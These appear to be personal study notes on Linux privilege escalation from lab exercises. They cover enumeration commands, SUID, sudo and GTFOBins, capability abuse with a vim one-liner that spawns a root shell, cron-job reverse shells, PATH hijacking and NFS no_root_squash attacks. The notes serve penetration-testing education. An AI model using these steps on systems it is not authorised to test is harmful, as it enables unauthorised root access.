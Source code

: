 ## Linux Privilege Escalation:
- By [Arul Prakash]
- In order to understand what a particular Linux command does, use: https://www.explainshell.com/
- Important Resource: https://null-byte.wonderhowto.com/how-to/crack-shadow-hashes-after-getting-root-linux-system-0186386/
- Privilege escalation is the technique used to escalate our privileges from lower user to higher user(interms of privileges)
- Once we obtain the higher level privilege on the system then we can do a lot of things on that system

---------------------
### Enumeration: 
- Here we're going to see few commands which help us in enumerating target system
1. `hostname` - lists the name of the host
2. `uname -a` - prints kernel information
3. `cat /proc/version` - prints almost same infor of above command but more like gcc version....
4. `cat /etc/issue` - exact version on the OS
5. `ps` - lists the processes that are running
	* `ps -A` - all running processes
	* `ps axjf` - process tree
	* `ps aux` - displays processes with the users as well
6. `env` - shows all the environment variable
7. `sudo -l` - lists the commands that any user run as root without password
8. `groups` - lists the groups that current user is in
9. `id` - lists id of group,user
10. `cat /etc/passwd` - displays all the user
	- `cat /etc/passwd | cut -d ":" -f 1` - removes other stuff & only displays users
	- `ls /home` - displays users
11. `history` - previously ran commands which might have some sensitive info
12. `ifconfig` (or) `ip a` (or) `ip route` - network related information
13. **netstat** - network route
	* `netstat -a` - all listening and established connection
	* `netstat -at` - tcp connections
	* `netstat -au` - udp connections
	* `netstat -l` - listening connections
	* `netstat -s` - network statistics
	* `netstat -tp` - connections with service name and pid we can also add "l" for only listening ports
	* `netstat -i` - interface related information
	* `netstat -ano`
14. **find** command which helps us in finding lot of stuff,
	- Syntax: `find <path> <options> <regex/name>`
	find . -name flag1.txt: find the file named “flag1.txt” in the current directory
	- `find /home -name flag1.txt` : find the file names “flag1.txt” in the /home directory
	- `find / -type d -name config` : find the directory named config under “/”
	- `find / -type f -perm 0777` : find files with the 777 permissions (files readable, writable, and executable by all users)
	- `find / -perm a=x` : find executable files
	- `find /home -user frank` : find all files for user “frank” under “/home”
	- `find / -mtime 10` : find files that were modified in the last 10 days
	- `find / -atime 10` : find files that were accessed in the last 10 day
	- `find / -cmin -60` : find files changed within the last hour (60 minutes)
	- `find / -amin -60` : find files accesses within the last hour (60 minutes)
	- `find / -size 50M` : find files with a 50 MB size
	- `find / -writable -type d 2>/dev/null` : Find world-writeable folders
	- `find / -perm -222 -type d 2>/dev/null` : Find world-writeable folders
	- `find / -perm -o w -type d 2>/dev/null` : Find world-writeable folders
	- `find / -perm -o x -type d 2>/dev/null` : Find world-executable folders
	- We can also find programming languages and supported languages: `find / -name perl*`, `find / -name python*`, `find / -name gcc*` ...etc
	- `find / -perm -u=s -type f 2>/dev/null` : Find files with the SUID bit, which allows us to run the file with a higher privilege level than the current user. This is important!
15. We can even make use of "grep", "locate", "sort"...etc

----------------
### Automated Enumeration Scripts:
- In real life we dont get much time to do enumeration so we can make use of some cool automated scripts like follows,
- LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
- LinEnum: https://github.com/rebootuser/LinEnum
- LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
- Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration
- Linux Priv Checker: https://github.com/linted/linuxprivchecker

-------------------
### Linux Kernel Exploits:
- After finding the version of Kernel simple google for that exploit or you can also use "Linux Exploit suggester"
- Once you find the exploit for the privesc, transfer the payload from your machine to target machine and execute and you're good to go.
- In an example I worked out with **overlayfs** exploit and got higher privileges

------------------
### Sudo:
- This one of the first step to do, when you get access to the machine just simpley run "sudo -l", which lists all the files that we can run as root without any password
- Once you have any to run then navigate to https://gtfobins.github.io/ and search for is the one specified is a system program or else modify the file with "/bin/sh" and run that
- GTFO bins is going to be saviour!

----------------------
### SUID:(Set owner User ID)
- Its a kind of permission which gives specific permissions to run a file as root/owner
- This is really helpful to test.
- `find / -perm -u=s -type f 2>/dev/null` this will list all the suid files
- Then later search in GTFObins and look for the way to bypass
- Resource: https://null-byte.wonderhowto.com/how-to/crack-shadow-hashes-after-getting-root-linux-system-0186386/

------------------
### Capabilities:
- Capabilities are a bit similar to the SUID
- Capabilities provide a subset of root privileges to a process or a binary
- In order to look for them use `getcap -r / 2>/dev/null`
- Find the binary and check that on **GTFOBins** where there's a function for **Capabilities** and try out those any of them will work!
- In the example they provided a capability for `vim` and I used `./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'` which is provided in the website itself and I got root!
- Remember that this process is hit or trail, if it doesnt work move on!

----------------
### Cron jobs:
- Crons jobs are used for scheduling! Here we can schedule any binary/process to run.
- Interesting part here is that by default they run with the owner privileges.
- But if we find any cron-job which we can edit then we can do a lot!
- Cron job config is stored as **crontabs**
- To view crontab, `cat /etc/crontab`
- Any one can view it!
- Now we'll can see some cron-jobs see whether you can edit or not, if you can then edit with some reverse shell and listen!

-------------------
### PATH:
- PATH is an environment variable
- In order to run any binary we need to specify the full path also, but if the address of file is specified in PATH variable then we can simpley run the binary by mentioning its name, like how we run some command line tools like ls, cd,....etc
- In order to view the content in PATH variable we need to run `echo $PATH` and the outpur will be something like this `usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin`
- So whenever you use a tool without specifying path it searches in PATH and it runs!
- We can even add new path to PATH variable by `export PATH=<new-path>:$PATH`
- Also we need to find a writable paths so run `find / -writable 2>/dev/null`
- In the example I found a location where there's a script when I run its showing that "thm" not found, also it can be run as ROOT
- So I created a binary like `echo "/bin/bash" > thm` and gave executable rights then later added the path where **thm** located to PATH variable and now when I ran the binary then I got root!

-------------------
### NFS:(Network File Sharing)
- In order to view the configuration of NFS run `cat /etc/exports` or also we can type `showmount -e <target IP>` on our machine to find the **mountable shares**.
- In the output look for directories having `no_root_squash`, this means that the particular share is *writable*, hence we can do something to acquires root!
- Now after getting some directories where we can play around lets navigate to our attacker machine and create a sample directory anywhere like `/tmp`...etc
- Now we need to mount to the target machine by, 
`mount -o rw <targetIP>:<share-location> <directory path we created>`, here `rw` means read, write privileges.
- Now go to the folder we created and create a binary which gives us root on running.
- Then go back to the target machine and we can view the binary we created in the place we mounted, now run that and get root privileges!(do note that giving executable rights is not sufficient, we also need to give share rights by `chmod +s <binary>`)
- Then we're good to go!

---------------------------

## Thank you!!
